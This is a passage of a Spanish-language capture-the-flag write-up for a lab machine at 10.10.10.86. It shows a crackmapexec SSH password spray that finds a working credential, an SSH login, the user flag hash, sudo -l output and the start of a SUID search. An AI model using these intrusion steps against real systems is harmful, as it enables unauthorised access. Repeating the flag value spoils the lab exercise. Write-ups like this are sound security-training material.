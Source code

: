Uno de ellos es válido por SSH

```null
crackmapexec ssh 10.10.10.86 -u users -p passwords --no-bruteforce
SSH         10.10.10.86     22     10.10.10.86      [*] SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4
SSH         10.10.10.86     22     10.10.10.86      [-] admin:Password1 Authentication failed.
SSH         10.10.10.86     22     10.10.10.86      [-] abbigail:piggy Authentication failed.
SSH         10.10.10.86     22     10.10.10.86      [-] ona:monkeyman Authentication failed.
SSH         10.10.10.86     22     10.10.10.86      [-] irma:strength Authentication failed.
SSH         10.10.10.86     22     10.10.10.86      [-] alec:blaster Authentication failed.
SSH         10.10.10.86     22     10.10.10.86      [-] wendell:megadeth Authentication failed.
SSH         10.10.10.86     22     10.10.10.86      [-] aglae:misfits Authentication failed.
SSH         10.10.10.86     22     10.10.10.86      [-] rick:lovesucks1 Authentication failed.
SSH         10.10.10.86     22     10.10.10.86      [+] genevieve:Princess1 
```

Me conecto por SSH y puedo ver la primera flag

```null
ssh genevieve@10.10.10.86
genevieve@10.10.10.86's password: 
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-133-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Mar 26 23:42:41 2018 from 172.23.10.99
genevieve@dab:~$ cat user.txt 
8f1554a2b7d8d723f6dc6bb0c04207fa
```

# Escalada

Tengo un privilegio a nivel de sudoers

```null
genevieve@dab:/$ sudo -l
Matching Defaults entries for genevieve on dab:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User genevieve may run the following commands on dab:
    (root) /usr/bin/try_harder
```

Pero es un rabbit hole, no sirve de nada. Busco por binarios cuyo privilegio sea SUID

```null
genevieve@dab:/$ find \-perm \-4000 2>/dev/null 
```
